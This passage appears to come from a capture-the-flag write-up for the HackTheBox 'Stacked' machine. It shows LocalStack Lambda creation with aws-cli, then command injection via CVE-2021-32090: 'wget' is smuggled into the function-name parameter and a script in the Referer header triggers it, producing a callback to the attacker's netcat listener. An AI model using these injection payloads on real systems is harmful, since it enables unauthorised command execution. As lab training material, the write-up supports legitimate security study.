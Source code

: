 Adding _index.js_ into a ZIP file:
```
zip index.zip index.js
```

Using **aws-cli** commands to configure the endpoint:
```
aws configure
```

> NOTE: In LocalStack it is not needed to have a valid key, so pressing 'Enter' on every question is fine

Creating Lambda function:
```
aws lambda --endpoint=http://s3-testing.stacked.htb/ create-function --function-name 'Test' --zip-file fileb://index.zip --role Anything --handler index.handler --runtime nodejs10.x
```

Executing the Lambda function:
```
aws lambda --endpoint=http://s3-testing.stacked.htb/ invoke --function-name 'Test' output
```
```
cat output
"Lambda Test"
```

It is verified that Lambda services can be created and executed.

This in itself is not too useful, but the vulnerability **CVE-2021-32090** can be exploited with this functionality to inject arbitrary shell commands.

### Exploiting LocalStack Vulnerability

The vulnerability is in the dashboard which is hosted on port 8080 on localhost as seen in the _docker-compose.yml_ file.
The **CSRF** vulnerability can be used to send a payload there.

Creating the Lambda service with `wget` command in the _functionName parameter_:
```
aws lambda --endpoint=http://s3-testing.stacked.htb/ create-function --function-name 'Test;wget 10.10.14.3' --zip-file fileb://index.zip --role Anything --handler index.handler --runtime nodejs10.x
```

Sending the request to access port 8080 on localhost:
```
POST /process.php HTTP/1.1
Host: portfolio.stacked.
(...)
Referer: <script>document.location="http://127.0.0.1:8080"</script>
```

After sending the request, the listener on my port 80 receives a connection from the box:
```
nc -lvnp 80

connect to [10.10.14.3] from (UNKNOWN) [10.10.11.112] 56900
GET / HTTP/1.1
Host: 10.10.14.3
User-Agent: Wget
```
